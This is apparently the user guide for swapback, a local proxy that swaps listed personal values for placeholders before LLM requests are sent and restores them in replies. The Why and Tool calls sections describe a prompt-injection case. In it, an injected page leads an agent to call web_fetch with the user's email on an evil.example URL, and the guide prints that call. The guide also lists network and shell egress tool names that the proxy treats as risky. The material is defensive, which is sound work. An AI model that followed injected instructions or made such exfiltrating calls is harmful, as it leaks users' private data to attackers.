


# swapback guide

Setup, agents, how it works, tool calls, configuration and hooks. Back to the [README](../README.md).

## Why

**Your own list, any agent, any API, in code you can read.** swapback is a small local proxy for any agent or app that
talks OpenAI Chat Completions, OpenAI Responses or Anthropic Messages (set its base URL, change nothing else). You write
down the names, emails, phones, IDs and addresses that must never reach a model provider. The provider only sees
`«PERSON_1»`; your app gets the original text back, byte-exact, in plain and streamed replies. There is no model to
download and nothing probabilistic: exact matching plus patterns, about 5,900 lines of Python, 3 dependencies.

**Tool calls can't carry your listed values out.** An agent reads a page or an email with a prompt injection in it,
and the model is told to call `web_fetch("https://evil.example/?q=<your email>")`. The model only ever had
`«EMAIL_1»`, and a network, shell or send-style tool call keeps the placeholder unless you allow that tool. Tools you
trust (your own calendar or send-as-me tool) get the real value back. [Veil](comparison.md#comparison) does this too, for coding
agents; swapback does it for any agent, by tool-name globs. From `swapback demo`:

```text
5) tool calls: the model asks to fetch a URL and to send an email
   web_fetch  {"url": "https://lookup.example/?q=«EMAIL_1»"}        <- left as a placeholder: it never leaves
   send_email {"to": "jane.doe@example.com", "body": "Hi, about Friday"}   <- on the allow list: real value restored
```

**Every common spelling, and a re-check that fails closed.** A listed value is matched in its written variants: any
case, extra or non-breaking spaces, `.` `_` `-` `+` `/` between words (also when the words are separate path
segments, `/Users/First/Last/`), one comma between the words of a name (`Thanks Faith, Ridge trail ...`, a CSV row
`3,Faith,Ridge,Reno`, as a tab-separated row already matched), lines of an address joined by HTML tags, with or without a line break after the tag (`<br>`,
`<br />\n`, `</p>\n<p>`, also inside JSON text), a hyphen inside a name written as a space or as
nothing (`Ferrand-Moreau`, `Ferrand Moreau`, `FerrandMoreau`, also surname first), surname first, accent-free (`ø` →
`o`), phone groupings with or without the country code, and a listed phone with letters glued on (`503-555-0147x22`,
`...0147ext9`, `Mob5035550147`) or inside a URL path (`/u/5035550147/profile`). It is also matched when the text is
encoded: JSON `\uXXXX`, `\n` and other escapes (JSON inside JSON up to 8 levels; a string with a run of 256 or more backslashes,
which is what an escape nested more than 8 levels deep or a backslash nested 8 deep becomes, blocks the request with
a `503` instead of being sent), HTML entities, `%XX` URL encoding
and form encoding (`+` for a space, `?q=Jane+Doe`), decomposed accents (NFD), zero-width characters and fullwidth
digits or letters.

After the swap, every outgoing string is checked again, two ways, and either one blocks the request (`503`) instead of
sending it: (1) the matcher's own rules again, in all of the spellings above; (2) a **skeleton check** that does not use
the matcher's rules. It reduces the string, and each decoded view of it (escapes, entities and `%XX`, up to 8 levels,
and the same with HTML tags read as spaces, block elements such as `<div>` or `<p>` as paragraph breaks),
to letters and digits only (accents stripped, NFKD-folded so fullwidth forms and ligatures become plain letters,
zero-width characters and soft hyphens removed, `[at]`/`[dot]` dropped), and looks for each listed name, email, ID and
address reduced the same way (at least 6 letters and digits; addresses 10), with any punctuation or nothing between
its parts, and for each listed phone's national digits in any run of digits joined by up to 3 non-letters, whatever
letters sit around it. The skeleton check keeps three of the matcher's rules on purpose: whitespace inside one word of a
listed value does not join (`Ellis on` is not `Ellison`), a dictionary-word name counts only when written as a name
(see below), and a name that fits inside one filesystem path segment (`/home/jane/`, `/home/Jane.Doe/`) is left; a
name whose words are separate segments (`/Users/Jane/Doe/`) is not. When a pattern detector (below) swapped part of a
string, the skeleton check also reads that string with only your listed values swapped, so a listed value that a
pattern swap cut into (a street line swapped on its own) still blocks. Any scrub error blocks too.
**Out of scope:** base64, hex, rot13 and other re-encodings, a value split across separate fields or messages (a
listed "Amber Lane" sent as `{"first": "Amber", "last": "Lane"}` goes out as written: each field holds one ordinary
word, and the two are not joined), letters
spaced out with whitespace, listed names shorter than 6 letters in a spelling the matcher does not know (the skeleton
check skips them), and names you never listed (there is no NER).

- **Measured, and you can re-run it.** `swapback selftest` (about 10 seconds, made-up data shipped in the package) sends
  each listed value in 257 written forms through 7 request paths. 0.4.13: 34/34 listed values caught, 0 of 1,799 forms
  leaked, the re-check alone (swap switched off) sees 771/771 forms and its skeleton layer alone 514/514, 57/57
  ordinary sentences untouched (including ALL-CAPS headings), 1,694/1,694 exact round trips, 58/58 JSON-in-JSON
  multi-line restores valid, 87/87 JSON restores in a ```json fence, inline in prose or pasted valid, 60/60 addresses
  joined by `<br>\n`-style tags inside JSON swapped (not blocked), 68/68 doubly escaped tool-argument placeholders
  restored, 96/96 restores into JSON nested 1 to 8 levels valid and exact, 10/10 escaped values nested deeper blocked,
  7/7 dictionary-word names next to sentence ends or HTML elements handled, 96/96 restores into tool-call arguments
  with mixed escaping (1 to 8 inner levels) valid, 6/6 `\u00ab`-escaped placeholders in text replies restored, 7/7
  one-word HTML cells handled, 194/194 dictionary-word names split across one-word cells or blocks anywhere in a row
  or list swapped (and ordinary one-word blocks left alone), 3/3 example placeholders never assigned and broken known
  YAML reported as such, 36/36 values with quoted attributes between their parts back byte for byte, 36/36 cell
  names in HTML escaped inside JSON swapped and back exact, 11/11 reused cell names, dotted capital I, `> `-quoted
  addresses and 9,000 copies in one string, 32/32 cell names 7 and 8 JSON levels down (raw, `\u003c`, `<\/td>` and
  `&lt;` HTML, with and without quoted attributes) swapped and back exact, 18/18 cells reused after another tag, names
  split by a comma, across CSV columns or across markdown table cells, `i` + combining dot, `| `-quoted addresses, copies 8 levels down and the time
  limit, 5/5 missing or broken config files and bad `scrub_timeout_s` values and 3/3 bad `listen` values or ports in use reported in one line, a 200 KB `%XX` body checked in under a second, health reads `blocked` when the list file is deleted or broken mid-run. Unlisted
  values caught by the patterns alone: 6/8 (both unlisted names missed). A second holdout with different made-up data
  (33 listed values incl. names as path segments, `<br>`-joined addresses and fenced-JSON restores, 1,240 requests;
  written by the maintainer, not independent): 0.4.4 leaked 235 requests, 0.4.5 leaked 10, all of them the lower-case
  spelling of a dictionary-word name (`~/ruby/brooks/`), which matches Title Case only by design; fenced/inline JSON
  restores valid 0/125 → 125/125; false blocks on 2,400 chunks of ordinary text (Python standard library source,
  licence texts): 0 on both. See [Leak test](testing.md#leak-test-swapback-selftest).
- **Byte-exact restore.** Where the reply puts a placeholder back at the JSON level the value was sent at (as text,
  or inside the same depth of JSON strings), the value comes back byte for byte as you wrote it: same case, same phone
  format, same spacing, same escaping (`S\u00f8ren`, `<div dir=\"ltr\">` or `\u003c/td\u003e` between its parts stay
  exactly as sent). These come back as the same value in another spelling, by design: the value itself written with
  HTML entities or `%XX` (`S&#248;ren`, `S%C3%B8ren`) comes back decoded (`Søren`); a value the reply moves to another
  JSON level, or that sat escaped where swapback does not read a JSON level (a JSON document that is a bare string),
  comes back unescaped and then escaped for where it lands (JSON-equal: `\u00f8` as `ø`); and a name swapped out of separate HTML blocks (`<td>Amber</td><td>Lane</td>`) that the reply reuses where no tag
  comes right before it ("Dear «PERSON_1»", a tool call's `to_name`), or where a different tag comes right before it
  than before the name as sent (`<li>«PERSON_1»</li>` for a name sent in `<td>` cells), comes back as the listed name,
  `Amber Lane`, without the tags between its words.
  A value restored inside a JSON string is JSON-escaped (quotes, backslashes, newlines), so the JSON stays valid:
  a whole JSON reply (JSON mode, structured output), and JSON inside a prose or markdown reply (a ```json fence, an
  object written inline). Inside JSON inside JSON it is escaped once per JSON level it really sits in (read from
  the text around it, up to 16 levels), so every level parses, also when the outer level is ASCII-escaped around raw
  inner JSON (`json.dumps` of a raw `json.dumps`) or the model wrote the placeholder `\u00ab`-escaped. Elsewhere in prose the value comes back as written, newlines included.
- **Fails closed, loudly.** A scrub error, an unreadable body, a missing or empty known file, a run of 256 or
  more backslashes (JSON nested more than 8 levels deep, or a backslash nested 8 deep: too deep to check) or a known value still present after the swap answers `503`, with a message in the API's own error shape that says what was blocked and why,
  plus one log line on stderr. A known file that goes missing or unreadable while the proxy runs turns
  `/scrubber/health` to `"status": "blocked"`, `"ok": false` until a good file is read again; one that suddenly shrinks
  keeps the old values protected, logs a warning and turns it to `"status": "warning"`, `"ok": false` (either way
  `swapback health` exits 1). `"known"` in health counts your unique listed values: a phone counts once, though it
  is matched in several written formats (`check-config`'s `known_by_type` counts the same way); the two built-in
  canary values are `"known_builtin"`. A missing or broken config file stops the CLI and the proxy with one error
  line (exit 2), not a traceback, and so does a `listen` value that is not `host:port` or a port already in use.
- **Names that are ordinary words stay out of ordinary sentences.** A listed name made only of dictionary words
  ("Drew Wells", "Jack Frost") is matched only when written as a name, every word capitalised, so "she drew wells"
  goes out unchanged, and not across a sentence end ("Saving Grace. Fields of gold"), a blank line or separate HTML
  block elements (`<div>Grace</div><div>Fields of gold</div>`), except when two neighbouring blocks each hold one word and together
  spell the listed name (`<td>Grace</td><td>Fields</td><td>Denver</td>`, `<li>Grace</li><li>Fields</li>`), wherever the
  pair sits in the row or list, also when that HTML is escaped inside JSON (`\u003ctd\u003e` Go-style, `<\/td>`
  PHP-style, `&lt;td&gt;` entities); ALL-CAPS ("CAROL SINGER WANTED") counts as a heading, not a name, unless you set
  `common_names_all_caps: true`. `common_names_title_case: false` matches them in any case.
- **Not a replacement for NER.** Names you never listed go out as written. Use it alongside an NER tool if you need
  that ([Use alongside other tools](#use-alongside-litellm-or-an-ner-tool)).

<p align="center"></p>

## Quickstart (10 seconds, no API key)

Needs Python 3.11 or newer.

```bash
pip install swapback
swapback demo
```

`swapback demo` starts a built-in fake model that echoes what it receives, puts the proxy in front of it, and sends a
plain, a streamed and a tool-call request with made-up data. No config, no key, no network. Output (abridged):

```text
1) your app sends
   Email Jane Q Doe at jane.doe@example.com or call (425) 555-0182 about Friday.
2) the model receives
   Email «PERSON_1» at «EMAIL_1» or call «PHONE_1» about Friday.
3) your app gets back
   You said: Email Jane Q Doe at jane.doe@example.com or call (425) 555-0182 about Friday.
...
5) tool calls: the model asks to fetch a URL and to send an email
   web_fetch  {"url": "https://lookup.example/?q=«EMAIL_1»"}
   send_email {"to": "jane.doe@example.com", "body": "Hi, about Friday"}
PASS: the model never saw the made-up name, email or phone, and every reply came back exact.
```

From a clone, `examples/` has the same mock as a script (`examples/mock_upstream.py`, `examples/quickstart.yaml`,
`examples/curl_demo.sh`) if you want to run the two processes yourself.

### Set it up for a real provider

```bash
swapback init          # writes swapback.yaml, known.yaml and private_terms.example.yaml (0600) from the shipped examples
                       # then EDIT known.yaml: your names, emails, phones (see Configuration)
cp private_terms.example.yaml private_terms.yaml    # optional: codenames and money figures
```

`swapback init` never overwrites a file unless you pass `--force`; from a clone, the same examples sit in the repo root.

In `swapback.yaml`:

```yaml
upstream: https://api.openai.com      # a base URL WITHOUT /v1: the proxy appends the client's own path
known_file: known.yaml
private_terms_file: private_terms.yaml   # leave "" if you skipped the private terms file
```

### Build known.yaml from your contacts

Names are only swapped if they are in your known file, so most of the value is in that list. Instead of typing it,
build it from a contacts export:

```bash
swapback known init --vcf contacts.vcf                 # iPhone / macOS / Android export (vCard 2.1, 3.0, 4.0)
swapback known init --csv google_contacts.csv          # Google or Outlook CSV, or any name/email/phone columns
swapback known init --scan past_prompts.jsonl          # suggests names, emails, phones you have actually sent
```

- It reads full names, emails, phone numbers and street addresses, and merges them into `known_file` (or `--out`)
  without duplicates: `Jane Doe` and `jane doe`, or `425-555-0101` and `(425) 555-0101`, count once.
- The file is written with mode `0600`. Comments in an existing file are not kept.
- It prints counts only. `--show` also prints the values, `--dry-run` writes nothing.
- One-word contacts that are relations or common words (`Mom`, `Dentist`, `Will`) are skipped: matching is
  case-insensitive, so they would swap ordinary words. `--first-names` also adds each contact's first name on its own,
  with the same skip list.
- `--scan` reads text or JSONL (any JSON strings in it) and writes candidates to `known.suggestions.yaml`: emails and
  phones it finds, and capitalised two- or three-word names seen at least twice (`--min-count`). Suggestions are never
  used or merged on their own. Delete what is not personal, then merge with `swapback known init --yaml
  known.suggestions.yaml`.

Only Python's standard library and the existing dependencies are used; nothing is sent anywhere.

Edit or build `known.yaml` **before** you start the proxy. The example values are fake (`check-config` warns while they
are still there). A configured `known_file` that is missing or not valid YAML when the proxy starts stops it from
starting (one error line, exit code 2); one that is empty starts the proxy but blocks every request (`503`), and so
does one that goes missing, breaks or empties while the proxy runs (fail-closed). Then:

```bash
swapback check-config     # counts per type, never values
swapback-proxy            # listens on 127.0.0.1:8787
```

Point your client at the proxy. It keeps its usual path; only the host changes:

```python
from openai import OpenAI
client = OpenAI(base_url="http://127.0.0.1:8787/v1", api_key="sk-...")   # your key is forwarded as is
```

`upstream` is joined with the client's path, so `upstream: https://api.openai.com/v1` would request `/v1/v1/...`.
Other providers work the same way: `upstream: https://openrouter.ai` with client base URL
`http://127.0.0.1:8787/api/v1`; `upstream: https://api.anthropic.com` with an Anthropic SDK base URL of
`http://127.0.0.1:8787`.

## Use with agents

Any agent that lets you set a provider base URL can sit behind the proxy. Tested end to end with
[OpenClaw](https://github.com/openclaw/openclaw) 2026.10.7: a fresh clone, the steps above and one provider block gave a
scrubbed chat in a few minutes; replies, streamed replies and tool calls came back with the real values. Since 0.3.0
OpenClaw's `exec`, `web_fetch`, `web_search`, `browser` and `message` tools keep placeholders by default
(see [Tool calls](#tool-calls)).

```json5
// OpenClaw config (openclaw.json)
{
  models: { providers: { scrub: {
    baseUrl: "http://127.0.0.1:8787/v1",   // swapback
    apiKey: "${PROVIDER_API_KEY}",         // your provider key; the proxy forwards it unchanged
    api: "openai-completions",
    models: [{ id: "your-model", name: "your-model via swapback", reasoning: false, input: ["text"],
               cost: { input: 0, output: 0, cacheRead: 0, cacheWrite: 0 }, contextWindow: 128000, maxTokens: 4096 }],
  } } },
  agents: { defaults: { model: { primary: "scrub/your-model" } } },
}
```

`api: "openai-completions"` was tested against a live model. `api: "anthropic-messages"` works from 0.1.1, which
restores Anthropic Messages streams (before, streamed replies in that mode kept their placeholders): set `baseUrl` to
`http://127.0.0.1:8787` (no `/v1`) and the proxy's `upstream` to an Anthropic-compatible endpoint. That mode was checked
end to end with OpenClaw against a mock Anthropic upstream, not yet against a live Claude model.

**What a block looks like in an agent.** When the proxy blocks a request (fail-closed), it answers `503` in the error
shape of the API the client called (OpenAI `{"error": {...}}`, Anthropic `{"type": "error", ...}`), with the header
`X-Swapback-Blocked` and a message written for a person: `swapback blocked this request (fail-closed), so nothing was
sent to the model: <reason>. Run swapback health for details.` Agents that show the provider's error message show
this one, usually after retrying a few times. Some show only a generic error (in our 0.4.0 test, OpenClaw said it
couldn't connect to the AI service), so the proxy also prints one line per block on stderr
(`swapback: blocked POST /v1/chat/completions: <reason>`; never a value). To see more:

```bash
swapback health                          # mode, counters, last_error
tail -n 5 ~/.local/state/swapback/requests.jsonl   # one line per request: status, blocked, error, swap counts
```

The usual causes are a missing or broken `known_file` / `private_terms_file`, a non-JSON or compressed body on a model
endpoint, or a known value still present after the swap.

**Check what the provider saw.** `requests.jsonl` records counts and types, never the text. To prove the provider got
placeholders only, run `swapback canary` (set `canary_model` first): it sends a fake name and email through the
running proxy, checks the provider's raw answer (`X-Scrubber-Raw: 1`) for the fake values and checks the restored answer
for them. `python examples/smoke.py` runs the same check offline against the mock upstream.

## How it works

<p align="center"></p>

1. **Swap.** Every string in the JSON request body is scanned. Values from your known-values file are matched as whole
   words, case-insensitively, in their common written variants (a phone number also matches `(425) 555-0182`,
   `425.555.0182`, `+14255550182`, ...; a multi-word value also matches with its words joined by non-breaking or
   repeated spaces, tabs, zero-width characters, `.`, `_`, `-`, `+`, `/` or `%20`, so `Jane.Q.Doe`, `JANE Q DOE`,
   `Jane+Q+Doe` and `Jane%20Q%20Doe` are the same person under one placeholder). Escaped text is decoded for matching
   (JSON `\uXXXX` and `\n`, nested JSON, HTML entities, `%XX`) and normalized (NFC for decomposed accents, zero-width
   characters removed, fullwidth ASCII folded), and each hit is mapped back to the span it came from. A listed name made
   only of dictionary words (a 64k-word English list ships in the package) matches only in Title Case (not in lower case, and not in ALL-CAPS unless
   `common_names_all_caps: true`); a
   comma between two ordinary lower-case words ("say grace, lee side") does not join a surname-first name. Detectors
   then catch what you did not list:
   - phone numbers via [`phonenumbers`](https://github.com/daviddrysdale/python-phonenumbers);
   - email, credit card (Luhn), IBAN, US SSN, IP address and profile URLs, from
     [Microsoft Presidio](https://github.com/microsoft/presidio)'s predefined recognizer patterns;
   - API keys and tokens, from the [gitleaks](https://github.com/gitleaks/gitleaks) default rules;
   - a few local rules: street addresses, keyword-anchored account numbers and dates of birth, order numbers, and
     gap rules for emails written as `name [at] example [dot] org` or with a full-width `＠` or hidden zero-width
     characters, and IPv6 addresses.
2. **Re-check.** After the swap, every outgoing string is checked again for known values: with the same variant rules
   in the same decoded and normalized views, and with the looser skeleton check described above (letters and digits
   only, no matcher rules). If either finds one, the request is blocked. `swapback selftest` checks this on its own,
   with the swap switched off: every form must be seen by the re-check, and it reports the skeleton layer alone.
3. **Forward or block.** Paths, headers (including `Authorization`) and the model name pass through unchanged. Any error
   while scrubbing answers `503` with a `scrubber_error`, and nothing is forwarded.
4. **Restore.** Placeholders in the reply are swapped back to the original text: plain JSON responses anywhere in the
   body, OpenAI-style `chat.completion.chunk` SSE streams, OpenAI Responses API streams (`output_text`, refusal and
   reasoning deltas, `function_call_arguments` and `custom_tool_call_input` deltas, and the `.done` and
   `response.completed` snapshots) and Anthropic Messages streams (`text_delta`, and `input_json_delta` for
   `tool_use`), delta by delta. A placeholder split across chunks is held back until complete.
   Values inside tool-call arguments, and inside the strings of a reply that is a JSON document (it starts with `{` or
   `[`), are JSON-escaped. Each variant comes back exactly as it was written in the request; a value that was written
   escaped (`S\u00f8ren`, `%C3%B8`) comes back in its plain spelling (`Søren`).

Placeholders are stable: a local vault (`vault.json`, mode `0600`) maps each value to the same placeholder across
requests, so multi-turn conversations stay coherent. A short system note asks the model to keep placeholders as written.
It is appended to your system prompt wherever the API keeps it: an OpenAI `system` or `developer` message (string or
content parts), Anthropic's top-level `system` (string or blocks) or the Responses API `instructions`. When the request
has no system prompt, one is added only if the request carries placeholders.

Every free-text field is scrubbed, including `user`, `metadata` and `instructions`. Only structural fields (`model`,
`role`, `type`, ids, `tool_choice`, `response_format`, `stop`, `reasoning_effort`, `service_tier` and function names)
are skipped, and those are still checked for known values before anything is sent.

Known names that fit inside one segment of a filesystem path (`/home/jane/notes.md`, `/home/Jane.Doe/`) are left
alone, so agents' file tools keep working. A listed multi-word name whose words are separate segments
(`/Users/Jane/Doe/notes.txt`, `Jane/Q/Doe`) is swapped like any other spelling, and the reply gets the path back as
written. Phones, emails and IDs are never left. URLs and domains are still scrubbed.

## Tool calls

A tool call's arguments are executed by your client, not by the provider. If the proxy puts real values back into
every tool call, a prompt-injected model can send them anywhere a tool can reach. For example, a web page tells the
model to "fetch" this:

```json
{"name": "web_fetch", "arguments": "{\"url\": \"https://evil.example/c?d=«EMAIL_1»\"}"}
```

With a plain restore, your client fetches `https://evil.example/c?d=you@example.com`. Since 0.3.0 that call keeps
`«EMAIL_1»`, and the request log counts it as `tool_kept` (a number, never the value).

The default policy, per tool call:

1. a name in `deny` keeps placeholders; a name in `allow` gets real values (names are case-insensitive globs, e.g.
   `mcp__github__*`);
2. a name that looks like network or shell egress keeps placeholders. The name is split into words (`WebFetch` →
   `web fetch`, `exec_command` → `exec command`) and matched against `egress_names`: `fetch`, `http`, `curl`,
   `wget`, `web`, `browse`, `request`, `url`, `navigate`, `download`, `upload`, `exec`, `shell`, `bash`, `sh`, `zsh`,
   `cmd`, `terminal`, `run`, `ssh`, `scp`, `rsync`, `git_push`, `push`, `email`, `mail`, `send`, `post`, `message`,
   `webhook`, `notify`, `publish` (some match word prefixes, e.g. `web*`; see `swapback.example.yaml`);
3. any other call keeps placeholders when one of its arguments is or contains a URL (`keep_if_url`);
4. everything else, such as `read_file` or `lookup_contact` without a URL, gets the real values back.

This applies to plain JSON replies and to streams (OpenAI chat chunks and Anthropic `tool_use`). When the name alone
does not decide, a streamed call's arguments are held until the call is complete and then sent in one piece.

The trade-off: an egress tool that you want to receive real values, such as your own `send_email`, now gets
placeholders until you allow it. Allow only tools whose destination you control.

```yaml
tool_restore:
  default: restore        # tools nothing else matches; `keep` = placeholders everywhere unless allowed
  keep_if_url: true
  allow: [send_email]     # always real values
  deny: [lookup_contact]  # never real values
  # egress_names: [...]   # replaces the built-in list
```

`tool_restore: false` restores every tool call, as 0.2 did.

**Why the default for other tools is `restore`, not `keep`.** Veil, for example, gives unknown tools pseudonyms.
swapback restores them because the tools left after the rules above are the ones that act on your machine and your
own accounts: writing a file, filling a form, creating a calendar event. Placeholders there are silent data corruption
(a saved document addressed to `«PERSON_1»`), and the egress cases are already caught by name and by URL. If your agent
loads tools you don't know (third-party MCP servers, plugins), set `default: keep` and allow the ones you trust; that is
the stricter setting, and the one to use when you can't review the tool list.

## Framework recipes

`tool_restore` is plain config; nothing in swapback knows any framework. These are starting points for common agents.
Tool names were checked against each project's own docs on 2026-11-09 unless marked unverified. "Kept by default"
means the built-in egress list already matches the name (`swapback check-config` shows the policy you end up with).

**Generic, strict.** Placeholders everywhere except the one or two tools that must address real people, ideally tools
that ask you before they act:

```yaml
tool_restore:
  default: keep
  allow: [send_email]          # your own tool names
```

**OpenClaw** (2026.10.7, from its tools index). Kept by default: `exec`, `terminal`, `code_execution`, `web_fetch`,
`web_search`, `browser`, `message`. Real values: `read`, `write`, `edit`, `apply_patch`, `cron`.

```yaml
tool_restore:
  allow: [message]             # only if replies go to your own channels or you approve each send:
                               # `message` can address any channel, so allowing it lets it carry real values out
  deny: [process, x_search, nodes]   # process writes to running commands; x_search queries X; nodes reaches
                                     # paired devices. None of these match the built-in list.
```

**Claude Code** (from its tools reference). Kept by default: `Bash`, `PowerShell`, `WebFetch`, `WebSearch`,
`SendMessage`, `PushNotification`. Real values: `Read`, `Write`, `Edit`, `NotebookEdit`, `Glob`, `Grep`, so files on
your machine stay correct. Nothing to add for most setups; `deny: [RemoteTrigger]` if you use remote triggers.

**Codex CLI** (tool names unverified: taken from third-party write-ups, not from Codex's source). Kept by default:
`exec_command`, `shell`, `web_search`. `write_stdin` sends input to a running command and does not match the built-in
list:

```yaml
tool_restore:
  deny: [write_stdin]
```

## Configuration

Copy `swapback.example.yaml` to `swapback.yaml`, or point `SWAPBACK_CONFIG` at any file. Every key is optional
and has an environment override. Relative paths are relative to the config file. A minimal working setup is in
[`examples/`](https://github.com/rmpmrepo1278/swapback/tree/main/examples).

| key | env | default | |
|---|---|---|---|
| `mode` | `SWAPBACK_MODE` | `on` | `on` swap + restore; `watch` count only, forward the original; `off` pass through |
| `listen` | `SWAPBACK_LISTEN` | `127.0.0.1:8787` | loopback only unless `allow_remote: true` |
| `upstream` | `SWAPBACK_UPSTREAM` | `https://api.openai.com` | any OpenAI-compatible base URL (OpenRouter, LiteLLM, vLLM, llama.cpp, ...) |
| `known_file` | `SWAPBACK_KNOWN_FILE` | none | your known values; configured but missing or empty means requests are blocked |
| `private_terms_file` | `SWAPBACK_PRIVATE_TERMS` | none | codenames and figures that must not leave (below) |
| `state_dir` | `SWAPBACK_STATE_DIR` | `~/.local/state/swapback` | vault and request log |
| `alert_webhook` | `SWAPBACK_ALERT_WEBHOOK` | none | POSTs `{"text": ...}` when a request is blocked or the canary fails |
| `canary_model` | `SWAPBACK_CANARY_MODEL` | none | model used by `swapback canary` |

Renamed from pii-scrubber in 0.2.0: the old `PII_SCRUBBER_*` variables are still read when the `SWAPBACK_*` one is unset, but they are deprecated.

Also: `tool_restore` (see [Tool calls](#tool-calls)), `hooks` (see [Hooks](#hooks)), `phone_regions`, `url_swap`, `patterns` (turn single detectors
off, e.g. `{IP: false}`), `common_names_title_case` (default `true`), `allow_empty_known`, `extra_secret_rules`, `log_requests`, `alert_min_interval_s`, `system_note`,
`scrub_timeout_s` (default `10`: a request whose check takes longer is stopped and answered `503` with a one-line reason, so
a request the client gave up on does not keep a CPU busy; `0` turns the limit off; a value that is not a number of
seconds, 0 or more, is a one-line config error and exit 2, like other bad settings). It covers the request check, not
the restore of the reply (see [Limits](limits.md#limits)).

**Known values** (`known.example.yaml`). The exact strings to swap, by type. The file is re-read whenever its content
changes (also a save by rename); no restart needed. Guard rails, so a broken file never silently protects nothing:

- A configured known file with no values blocks every request (set `allow_empty_known: true` if you mean it).
- A known file deleted, unreadable or broken while the proxy runs blocks every request and reports `"status":
  "blocked"`, `"ok": false` in `/scrubber/health` (`swapback health` exits 1) until a good file is read again.
- If a reload finds the file empty or less than half its previous size, the proxy keeps protecting the previous values
  as well, prints a warning line on stderr, sends an alert and reports `"status": "warning"`, `"ok": false` in
  `/scrubber/health`. Restart the proxy to accept a smaller list.
- `swapback check-config` exits with code 2 when the known file has no values, so a script or CI step fails too.
- `swapback check-config`, the proxy's start line and `/scrubber/health` warn when the made-up example values from
  `swapback init` are still in the file, and when a listed name is also an ordinary phrase (`Will Hunt`). Such names are matched only when every word is
  capitalised, so "I will hunt for the keys" is left alone; `common_names_title_case: false` matches them in any case.
  Warnings name line numbers, never values.

A listed name also matches surname first (`Doe, Jane Q`) and without accents (`Anais` for `Anaïs`); a listed ID also
matches with its spaces and dashes removed (`QQ123456C` for `QQ 12 34 56 C`). Every variant shares the value's placeholder.

```yaml
PERSON:
  - Jane Q Doe
EMAIL:
  - jdoe@corp.example
PHONE:
  - "425-555-0182"        # also matches (425) 555-0182, 425.555.0182, +14255550182, ...
```

**Phones.** A listed phone is matched as you wrote it and by its digits in any grouping, with or without a country
code or leading 0 (`98765 43210` also matches `+91 9876543210`). The common US formats are added only for numbers
that are actually US. `phone_regions` (default `[US]`) is a different setting: it tells the *pattern detector* which
countries' numbers to find when they are not listed and written without a `+` country code. Add yours, e.g.
`phone_regions: [US, IN, AU]`.

**Private terms** (`private_terms.example.yaml`). Things that are not PII but must not leave: phrases or regexes become
`«PRIVATE_TERM_n»`, and money amounts are matched in every written form (`$2.47B`, `2.47 billion`, `$2,470M`) as
`«PRIVATE_FIGURE_n»`.

```yaml
terms:
  - Project Bluebird
  - {regex: "11[\\s-]*FTEs?"}
figures:
  - 2470000000
```

**CLI.** `swapback check-config` (counts per type, never values), `swapback stats`, `swapback health`,
`swapback scrub-file request.json`, and `swapback canary`, which sends a fake name and email through the running
proxy and checks that the provider saw only placeholders and the client got the values back. `GET /scrubber/health` on
the proxy returns counters. Every command takes `--help` and `--version`; `swapback-proxy --help` lists the settings it reads and exits without starting.

## Hooks

Swapback can call your own Python code at a few points of each request, for things that belong next to the privacy
filter but are not part of it: a spend cap, a fallback to a local model when the provider is down or over quota,
usage accounting, an extra health endpoint. Name a module (or a `.py` file, relative to the config file) in
`swapback.yaml`; every function in it is optional:

```yaml
hooks:
  module: spend_cap.py        # or an importable module name; entry_point: <name> reads the swapback.hooks group
  options: {daily_usd: 5}     # handed to setup()
```

| function | when | may return |
|---|---|---|
| `setup(options, cfg)` | once, at start | |
| `before_forward(req, ctx)` | before each request goes upstream | `None`, a new route `{"url", "body", "headers", "timeout_s"}`, or `{"respond": {"status", "json"}}` to answer without calling anyone |
| `on_upstream_response(resp, ctx)` | the upstream answered >= 400 or was unreachable (`resp.status` is `None`) | `None`, or a route to try once instead |
| `on_usage(obj, ctx)` | each JSON reply and each SSE event, as the provider sent it | |
| `on_complete(result, ctx)` | once per request, after the reply (`status`, response `headers`, `rerouted`) | |
| `extra_routes()` | at start | `{"/path": fn}`: extra GET endpoints, `fn()` returns JSON or `(status, json)` |
| `alert(text)` | instead of `alert_webhook` | |

`req` has `method`, `path`, `headers` (the outgoing headers; edit it in place, for example to drop a header only your
hook reads), `body` (parsed JSON, read-only: return `{"body": ...}` to change it) and `api` (`chat`, `anthropic`,
`responses`). `ctx` is one dict per request shared by all calls; anything you put in `ctx["log"]` is written to
`requests.jsonl` under `hook` (keep it to counts and short words).

**Hooks never see real values.** In `mode: on` they get the request after scrubbing and the replies before restore,
